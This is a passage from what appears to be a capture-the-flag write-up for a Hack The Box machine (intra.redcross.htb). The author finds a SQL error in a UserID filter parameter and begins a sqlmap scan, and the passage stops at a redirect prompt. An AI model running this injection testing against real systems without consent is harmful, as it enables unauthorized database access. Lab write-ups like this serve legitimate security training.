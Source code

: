 ![Example Image](images/guest-messages.png)

Ok theres a few things here to pay attention to. We can see an admin user that has a UID of "1", a guest user with a UID of "5", and a UserID filter parameter. My first thought is to fuzz the filter. Only "1" returns any data.
There's not much else to see on this page, I cant get messages for other users. There is an interesting SQL error though when entering a single quote in the UserID parameter.

![Example Image](images/guest-sql.png)

This immediatley makes me think that SQL Injection will be the way to go here.

```bash
sqlmap -r guest-filter.req 
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.8.3#stable}
|_ -| . [.]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 20:33:31 /2024-05-14/

[20:33:31] [INFO] parsing HTTP request from 'guest-filter.req'
[20:33:31] [INFO] testing connection to the target URL
got a 301 redirect to 'https://intra.redcross.htb/?o=5&page=app'. Do you want to follow? [Y/n] y
```